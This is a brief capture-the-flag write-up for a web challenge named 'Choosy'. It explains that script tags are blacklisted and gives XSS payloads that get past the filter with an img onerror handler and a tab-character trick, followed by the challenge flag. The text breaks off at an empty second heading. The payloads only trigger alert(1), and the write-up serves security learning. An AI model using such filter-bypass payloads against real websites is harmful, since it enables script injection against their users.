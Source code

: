 # 1. Choosy
Description:
Single solution doesn't works on all problems. One should try different solutions for different problem.

link: http://20.193.247.209:8333/

Solution:
+ XSS detected
+ ` <image src/onerror=alert(1)>` this input gives xss
+ <script> tag is blacklisted
+ final payload:`"'><img src=xxx:x \x09onerror=javascript:alert(1)>
+ Flag: shellctf{50oom3_P4yL0aDS_aM0ng_Maaa4nnY}

  
# 2.
